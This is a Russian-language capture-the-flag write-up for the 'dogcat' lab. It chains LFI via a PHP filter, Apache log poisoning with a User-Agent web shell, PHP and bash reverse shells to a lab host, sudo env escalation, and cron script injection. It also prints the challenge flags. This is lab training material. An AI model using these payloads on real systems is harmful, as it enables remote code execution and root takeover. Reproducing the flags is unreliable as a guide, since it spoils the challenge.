






# Write-up: dogcat (LFI → Log Poisoning → PrivEsc)

## Recon

Запускаем nmap:

```bash
sudo nmap -sS -sV -sC --min-rate=1000 10.146.160.223
```

Результат:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
```

## Enum

Пробуем передать что-то кроме `cat`/`dog`:



Разрешены только `cat` и `dog`. А если передать что-то ещё:



Становится понятно, что PHP-код проверяет наличие `cat`/`dog` в параметре `view` и добавляет в конец `.php`.

С помощью PHP-фильтра обходим ограничение и читаем исходный код:

```text
http://10.146.160.223/?view=php://filter/read=convert.base64-encode/resource=dog/../../../../../var/www/html/index
```

Получаем base64-строку, декодируем:

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a>
        <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

Код позволяет передавать параметр `ext`.То есть выбрать расширение. Например:

```text
http://10.146.160.223/?view=dog/../../../../../../../etc/passwd&ext=
```



## Log Poisoning

Apache пишет все входящие запросы в `/var/log/apache2/access.log`, включая заголовок `User-Agent`. Когда файл подключается через `include()`, PHP исполняет весь PHP-код внутри него.

Проверяем, что лог читается:

```text
http://10.146.160.223/?view=dog/../../../../var/log/apache2/acces.log&ext=
```

Видим записи:

```text
127.0.0.1 - - [09/Sep/2026:15:11:02 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
192.168.129.76 - - [09/Sep/2026:15:19:46 +0000] "GET /?view=dog/../../../../var/log/apache2/acces.log&ext= HTTP/1.1" 200 711 "-" "Mozilla/5.0 ..."
```

Файл подвержен log poisoning. Внедряем PHP-код через `User-Agent` с помощью Burp Suite:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```



В логе появляется:

```text
Warning: system(): Cannot execute a blank command in /var/log/apache2/access.log on line 46
```

Значит, PHP-код исполняется. Передаём команду через `&cmd=id`:

```text
http://10.145.168.54/?view=dog/../../../../var/log/apache2/access.log&cmd=id&ext=
```

Получаем:

```text
Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Reverse Shell

Простейший reverse shell на PHP:

```bash
php -r '$sock=fsockopen("192.168.129.76",4444);exec("/bin/bash <&3 >&3 2>&3");'
```

Кодируем в URL:

```text
php%20-r%20%27%24sock%3Dfsockopen(%22192.168.129.76%22%2C4444)%3Bexec(%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

Итоговая ссылка:

```text
http://10.145.168.54/?view=dog/../../../../var/log/apache2/access.log&cmd=php%20-r%20%27%24sock%3Dfsockopen(%22192.168.129.76%22%2C4444)%3Bexec(%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22)%3B%27&ext=
```

## Post-Exploitation

Базовая разведка:



Первый флаг:

```text
THM{Th1s_1s_N0t_4_Catdog_ab67edfa}
```

Ищем остальные флаги:

```bash
find / -name "*flag*" 2>/dev/null
```

Находим:

```text
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
```

Второй флаг:

```text
THM{LF1_t0_RC3_aec3fb}
```

## PrivEsc

Проверяем `sudo`:

```bash
sudo -l
```

```text
User www-data may run the following commands on 0fc2db1ef8bb:
    (root) NOPASSWD: /usr/bin/env
```

Берём рут через `env`:

```bash
sudo /usr/bin/env /bin/sh
whoami
# root
```

Третий флаг:

```text
THM{D1ff3r3nt_3nv1ronments_87411}
```

## Backup exploit

В поисках четвёртого флага находим в `/opt/backups`:

```text
backup.sh
backup.tar
```

Смотрим содержимое:

```bash
cat backup.sh
```

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Судя по всему, скрипт запускается по cron от имени root. Сам файл запустить/распаковать не получается — он выполняется на стороне хоста.

Делаем инъекцию reverse shell в `backup.sh`:

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.129.76/4445 0>&1" >> backup.sh
```

Проверяем:

```bash
cat backup.sh
```

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/192.168.129.76/4445 0>&1
```

Ждём cron, получаем шелл от root-контекста:



Четвёртый флаг:

```text
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

## Итоговая схема (Kill Chain)

`LFI (Weak Sanitization)` → `Log Poisoning (RCE)` → `Sudo GTFOBins (Container Root)` → `Cron-Job Misconfiguration (Host Root)`
